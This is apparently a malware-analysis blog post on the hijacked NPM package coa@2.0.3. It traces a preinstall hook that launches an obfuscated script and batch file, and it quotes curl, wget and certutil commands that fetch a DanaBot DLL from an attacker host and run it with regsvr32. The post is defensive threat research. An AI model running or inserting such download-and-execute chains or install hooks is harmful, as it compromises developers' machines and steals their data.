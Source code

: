 ```yaml
---
title: "NPM COA@2.0.3 DanaBot Dropper"
author: Travis Mathison
date: 2021-11-08 05:35:00 -0700
categories: [Blogging, Malware-Analysis]
tags: [malware, report, obfuscation, javascript, danabot]
---
```


**Table of Contents**
- TOC
{:toc}

## Executive Summary
A malicious actor committed a change to the `coa` NPM package and pushed version `2.0.3` with the malicious content.  Developer builds started having issues which brought this to people's attention. 

The affected repository was [https://www.npmjs.com/package/coa](https://www.npmjs.com/package/coa) and an issue was opened exposing this at [https://github.com/veged/coa/issues/99](https://github.com/veged/coa/issues/99).

A diff showed two new files added and changes to the packages.json file adding a preinstall command that kicks off the new malicious activity which can be seen at [https://my.diffend.io/npm/coa/2.0.2/2.0.4/page/1#d2h-689903](https://my.diffend.io/npm/coa/2.0.2/2.0.4/page/1#d2h-689903).

### Actions leading to a DanaBot secondary payload
1. The new change included a preinstall command to run compile.js via node
2. The obfuscated `compile.js` file ends up calling the `compile.bat` file
    * ONLY Windows machines are targeted in this case, if Windows then:
    * `child_proccess.spawn("cmd.exe /c compile.bat")`
3. The obfuscated `compile.bat` file attempts to get a secondary payload and then runs it

```
Attempt 1: curl https://pastorcryptograph.at/3/sdd.dll -o compile.dll
Attempt 2: wget https://pastorcryptograph.at/3/sdd.dll -O compile.dll
Attempt 3: certutil.exe -urlcache -f https://pastorcryptograph.at/3/sdd.dll compile.dll

regsvr32.exe -s compile.dll
```

### Visual path of execution

<img style="align:left" src="{{ site.url }}/assets/img/blogging/coa_203_01.png"/>

### What gets dropped?
Rules matched this secondary payload to be a DanaBot information stealer. I successfully pulled down the DanaBot malware payload but have not analyzed this yet to identify any changed functionality from previous samples. Via config extractors I have pulled the C2 addresses.

### IOC's
**C2**

